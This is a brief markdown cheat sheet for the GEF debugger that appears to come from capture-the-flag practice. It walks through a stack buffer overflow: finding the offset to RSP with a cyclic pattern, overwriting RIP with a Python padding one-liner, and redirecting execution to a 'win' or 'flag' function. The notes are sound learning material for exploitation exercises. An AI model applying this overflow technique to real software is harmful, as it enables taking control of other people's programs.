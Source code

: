# [Gef](https://github.com/hugsy/gef)

`source /usr/share/gef/gef.py`

- `pattern create`
- `r` (to run the program, run, start)
- `pattern offset $rsp`

  ```
  [+] Searching for '$rsp'

  [+] Found at offset 72 (little-endian search) likely

  [+] Found at offset 65 (big-endian search)
  ```

- try to override RIP

  - `python3 -c "print('A'*72 + 'B'*6)"`
    - note: use 6 \* 'B' instead of 8, because of canonical addresses

- `info functions .*flag.*`

  - `info functions .*win.*`
  - list functions, to find the address, filter with regex

- now override the RIP, if it doesn't work, try to move a couple instructions forward
